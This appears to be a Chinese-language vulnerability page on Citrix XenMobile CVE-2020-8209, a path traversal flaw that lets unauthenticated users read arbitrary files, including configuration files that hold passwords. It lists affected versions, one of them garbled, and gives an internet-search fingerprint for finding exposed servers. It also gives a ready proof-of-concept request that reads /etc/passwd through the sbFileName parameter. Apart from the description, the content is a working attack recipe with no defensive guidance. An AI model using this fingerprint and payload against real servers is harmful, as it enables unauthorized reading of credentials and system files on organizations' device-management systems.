 # Citrix XenMobile 任意文件读取 CVE-2020-8209

## 漏洞描述

XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 影响版本

<a-checkbox checked>RP2之前的XenMobile服务器10.12</a-checkbox></br>

<a-checkbox checked>RP4之前的XenMobile服务器10.11</a-checkbox></br>

<a-checkbox checked>RP6之前的XenMobile服务器10.1010.9</a-checkbox></br>

<a-checkbox checked>RP5之前的XenMobile服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="XenMobile"</a-checkbox></br>

## 漏洞复现

验证POC

```
/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/xen-1.png)
